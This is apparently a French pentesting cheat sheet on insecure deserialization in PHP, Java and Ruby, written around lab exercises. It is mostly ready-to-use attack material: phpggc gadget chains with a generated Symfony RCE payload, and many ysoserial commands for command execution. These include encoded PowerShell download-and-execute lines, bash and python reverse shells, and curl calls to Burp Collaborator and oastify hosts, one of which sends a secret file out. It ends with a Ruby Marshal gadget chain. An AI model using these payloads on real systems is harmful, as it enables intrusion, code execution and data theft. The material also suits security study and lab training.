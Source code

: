 ## PHP Deserialisation

Exemple : `O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}`

- `O:4:"User"` : Un objet avec un nom de classe de 4 caractères "User"
- `2` : L'objet a deux propriétés
- `s:4:"name"` : Le nom du premier attribut est composé de 4 caractères "name"
- `s:6:"carlos"` : La valeur de l'attribut est composé de 6 caractères "carlos"
- `s:10:"isLoggedIn"` : Le nom du second attribut est composé de 10 caractères "isLoggedIn"
- `b:1` : La valeur de l'attribut est un booléen à true

### Fonctions de sérailisation et désérialisation

- `serialize()` : Retourne une chaîne de caractères contenant une représentation sérialisée de la valeur passée en paramètre.
- `unserialize()` : Retourne la valeur initiale d'une variable qui a été sérialisée.

### Fonctions magiques

Les fonctions magiques sont des fonctions qui sont appelées automatiquement à l'instanciation d'un objet.

Par exemple :

```php
class User {
    public $name;
    public $isLoggedIn;

    public function __construct($name) {
        $this->name = $name;
        $this->isLoggedIn = false;
    }
}
```

La fonction `__construct()` est appelée automatiquement lors de l'instanciation de l'objet.

### Outils pour la sérialisation

#### PHP

- (phpggc)[https://github.com/ambionics/phpggc]

```bash
$ ./phpggc -l

Gadget Chains
-------------

NAME                                      VERSION                                              TYPE                   VECTOR         I    
Bitrix/RCE1                               17.x.x <= 22.0.300                                   RCE (Function call)    __destruct          
CakePHP/RCE1                              ? <= 3.9.6                                           RCE (Command)          __destruct          
CakePHP/RCE2                              ? <= 4.2.3                                           RCE (Function call)    __destruct          
CodeIgniter4/FR1                          4.0.0 <= 4.3.6                                       File read              __toString     *    
CodeIgniter4/RCE1                         4.0.2 <= 4.0.3                                       RCE (Function call)    __destruct          
CodeIgniter4/RCE2                         4.0.0-rc.4 <= 4.3.6                                  RCE (Function call)    __destruct          
CodeIgniter4/RCE3                         4.0.4 <= 4.3.6                                       RCE (Function call)    __destruct          
CodeIgniter4/RCE4                         4.0.0-beta.1 <= 4.0.0-rc.4                           RCE (Function call)    __destruct          
CodeIgniter4/RCE5                         -4.1.3+                                              RCE (Function call)    __destruct          
CodeIgniter4/RCE6                         -4.1.3 <= 4.2.10+                                    RCE (Function call)    __destruct          
Doctrine/FW1                              ?                                                    File write             __toString     *    
Doctrine/FW2                              2.3.0 <= 2.4.0 v2.5.0 <= 2.8.5                       File write             __destruct     *    
Doctrine/RCE1                             1.5.1 <= 2.7.2                                       RCE (PHP code)         __destruct     *    
Doctrine/RCE2                             1.11.0 <= 2.3.2                                      RCE (Function call)    __destruct     *    
Dompdf/FD1                                1.1.1 <= ?                                           File delete            __destruct     *    
...
```

```bash
$./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt'

O:47:"Symfony\Component\Cache\Adapter\TagAwareAdapter":2:{s:57:"Symfony\Component\Cache\Adapter\TagAwareAdapterdeferred";a:1:{i:0;:33:"Symfony\Component\Cache\CacheItem":2:{s:11:"*poolHash";i:1;s:12:"*innerItem";s:26:"rm /home/carlos/morale.txt";}}s:53:"Symfony\Component\Cache\Adapter\TagAwareAdapterpool";O:44:"Symfony\Component\Cache\Adapter\ProxyAdapter":2:{s:54:"Symfony\Component\Cache\Adapter\ProxyAdapterpoolHash";i:1;s:58:"Symfony\Component\Cache\Adapter\ProxyAdaptersetInnerItem";s:4:"exec";}}
```

#### Java Deserialisation

La sérialisation en Java n'est pas aussi facilement lisible que la sérialisation en PHP.

Cependant, il y a quelques indices qui nous indiquent que nous avons affaire à une sérialisation Java.

- `rO0` : C'est un en-tête de sérialisation Java encodé en base64.
- `ac ed` : C'est un en-tête de sérialisation Java encodé en hexadécimal.

##### Fonctions de sérailisation et désérialisation

- `ObjectInputStream.readObject()` : Lit un objet à partir du flux d'entrée.
- `ObjectOutputStream.writeObject()` : Écrit un objet dans le flux de sortie.

##### Outils pour la sérialisation

- [ysoserial](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial.jar)

**yoserial nécessite une version de Java entre 8 et 15.**

Il y a une version de java 1.8 installée sur la machine à `E:/Programs/Java/jdk1.8.0_202/bin/java.exe`.

```bash
# PoC to make the application perform a DNS req
E:/Programs/Java/jdk1.8.0_202/bin/java.exe -jar ysoserial.jar URLDNS http://b7j40108s43ysmdpplgd3b7rdij87x.burpcollaborator.net > payload

# PoC RCE in Windows
# Ping
E:/Programs/Java/jdk1.8.0_202/bin/java.exe -jar ysoserial.jar CommonsCollections5 'cmd /c ping -n 5 127.0.0.1' > payload
# Time, I noticed the response too longer when this was used
E:/Programs/Java/jdk1.8.0_202/bin/java.exe -jar ysoserial.jar CommonsCollections4 "cmd /c timeout 5" > payload
# Create File
E:/Programs/Java/jdk1.8.0_202/bin/java.exe -jar ysoserial.jar CommonsCollections4 "cmd /c echo pwned> C:\\\\Users\\\\username\\\\pwn" > payload
# DNS request
E:/Programs/Java/jdk1.8.0_202/bin/java.exe -jar ysoserial.jar CommonsCollections4 "cmd /c nslookup jvikwa34jwgftvoxdz16jhpufllb90.burpcollaborator.net"
# HTTP request (+DNS)
E:/Programs/Java/jdk1.8.0_202/bin/java.exe -jar ysoserial.jar CommonsCollections4 "cmd /c certutil -urlcache -split -f http://j4ops7g6mi9w30verckjrk26txzqnf.burpcollaborator.net/a a"
E:/Programs/Java/jdk1.8.0_202/bin/java.exe -jar ysoserial.jar CommonsCollections4 "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAYwBlADcAMABwAG8AbwB1ADAAaABlAGIAaQAzAHcAegB1AHMAMQB6ADIAYQBvADEAZgA3ADkAdgB5AC4AYgB1AHIAcABjAG8AbABsAGEAYgBvAHIAYQB0AG8AcgAuAG4AZQB0AC8AYQAnACkA"
## In the ast http request was encoded: IEX(New-Object Net.WebClient).downloadString('http://1ce70poou0hebi3wzus1z2ao1f79vy.burpcollaborator.net/a')
## To encode something in Base64 for Windows PS from linux you can use: echo -n "<PAYLOAD>" | iconv --to-code UTF-16LE | base64 -w0
# Reverse Shell
## Encoded: IEX(New-Object Net.WebClient).downloadString('http://192.168.1.4:8989/powercat.ps1')
E:/Programs/Java/jdk1.8.0_202/bin/java.exe -jar ysoserial.jar CommonsCollections4 "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAxAC4ANAA6ADgAOQA4ADkALwBwAG8AdwBlAHIAYwBhAHQALgBwAHMAMQAnACkA"

#PoC RCE in Linux
# Ping
E:/Programs/Java/jdk1.8.0_202/bin/java.exe -jar ysoserial.jar CommonsCollections4 "ping -c 5 192.168.1.4" > payload 
# Time
## Using time in bash I didn't notice any difference in the timing of the response
# Create file
E:/Programs/Java/jdk1.8.0_202/bin/java.exe -jar ysoserial.jar CommonsCollections4 "touch /tmp/pwn" > payload
# DNS request
E:/Programs/Java/jdk1.8.0_202/bin/java.exe -jar ysoserial.jar CommonsCollections4 "dig ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
E:/Programs/Java/jdk1.8.0_202/bin/java.exe -jar ysoserial.jar CommonsCollections4 "nslookup ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
# HTTP request (+DNS)
E:/Programs/Java/jdk1.8.0_202/bin/java.exe -jar ysoserial.jar CommonsCollections4 "curl ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net" > payload
E:/Programs/Java/jdk1.8.0_202/bin/java.exe -jar ysoserial.jar CommonsCollections4 "wget ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
# Reverse shell
## Encoded: bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
E:/Programs/Java/jdk1.8.0_202/bin/java.exe -jar ysoserial.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}" | base64 -w0
## Encoded: export RHOST="127.0.0.1";export RPORT=12345;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
E:/Programs/Java/jdk1.8.0_202/bin/java.exe -jar ysoserial.jar CommonsCollections4 "bash -c {echo,ZXhwb3J0IFJIT1NUPSIxMjcuMC4wLjEiO2V4cG9ydCBSUE9SVD0xMjM0NTtweXRob24gLWMgJ2ltcG9ydCBzeXMsc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oIi9iaW4vc2giKSc=}|{base64,-d}|{bash,-i}"

# Base64 encode payload in base64
base64 -w0 payload
```

La désérialisation Java peut être en plus utilisée dans un format GZIP reconnaisable par le header `H4sIAAAAAAAA`, dans ce cas on peut utiliser l'outil ysoserial en complément de `| gzip | base64`.

Exemple :

```bash
E:/Programs/Java/jdk1.8.0_202/bin/java.exe -jar ysoserial-all.jar CommonsCollections6 "curl https://ciyk9k3yhjqv7vk30nr99ubp1g77v5ju.oastify.com -d @/home/carlos/secret" | gzip | base64
```

#### Ruby désérialisation

Il existe un gadget chain universel pour Ruby :

```ruby
Gem::SpecFetcher
Gem::Installer
require "base64"
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end
wa1 = Net::WriteAdapter.new(Kernel, :system)
rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "PAYLOAD_HERE")
wa2 = Net::WriteAdapter.new(rs, :resolve)
i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")
n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)
t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)
r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)
payload = Marshal.dump({payload: [Gem::SpecFetcher, Gem::Installer, r]})
puts Base64.strict_encode64(payload)
```